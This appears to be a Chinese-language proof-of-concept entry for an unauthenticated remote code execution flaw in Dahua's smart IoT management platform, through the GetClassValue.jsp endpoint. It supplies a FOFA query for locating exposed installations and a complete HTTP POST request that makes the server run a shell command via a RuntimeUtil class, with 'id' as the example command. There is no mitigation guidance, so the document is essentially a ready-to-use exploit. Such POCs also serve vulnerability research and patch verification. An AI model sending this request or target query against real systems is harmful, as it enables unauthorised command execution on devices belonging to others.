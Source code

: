 # 大华智能物联综合管理平台GetClassValue.jsp远程代码执行漏洞

大华智能物联综合管理平台GetClassValue.jsp远程代码执行漏洞，攻击者可以不需要授权远程执行命令。

## fofa

```javascript
app="dahua-智能物联综合管理平台"
```

## poc

```javascript
POST /evo-apigw/admin/API/Developer/GetClassValue.jsp HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
    "data": {
        "clazzName": "com.dahua.admin.util.RuntimeUtil",
        "methodName": "syncexecReturnInputStream",
        "fieldName": ["id"]
    }
}
```

![image-20250102172533617](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202501021725804.png)